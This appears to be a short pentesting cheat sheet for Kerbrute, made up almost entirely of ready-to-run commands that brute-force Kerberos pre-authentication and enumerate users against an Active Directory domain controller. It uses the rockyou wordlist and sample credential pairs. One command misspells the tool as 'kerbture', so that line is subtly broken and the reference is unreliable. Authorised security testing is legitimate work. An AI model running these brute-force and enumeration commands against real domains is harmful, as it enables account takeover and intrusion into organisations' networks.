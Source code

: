 ```yaml
---
title: Kerbrute
desc: Bruteforcing Kerberos pre-auth.
tags: [ActiveDirectory, BruteForce, Linux, Windows]
alts: [Impacket]
website: https://github.com/ropnop/kerbrute
render_with_liquid: false
---
```


## Bruteforce username:password

```sh
kerbrute bruteforce --dc 10.0.0.1 -d example.domain /path/to/combos.txt

# combos.txt example:
# username:password
# admin:admin
# wiener:peter
```

<br />

## Bruteforce user's password

```sh
kerbture bruteuser --dc 10.0.0.1 -d example.domain /usr/share/wordlists/rockyou.txt username
```

<br />

## Enumerate users

```sh
# Get users (--dc: the location of domain controller, -d: domain name)
kerbrute userenum --dc 10.0.0.1 -d example.local /usr/share/wordlists/username.txt
```

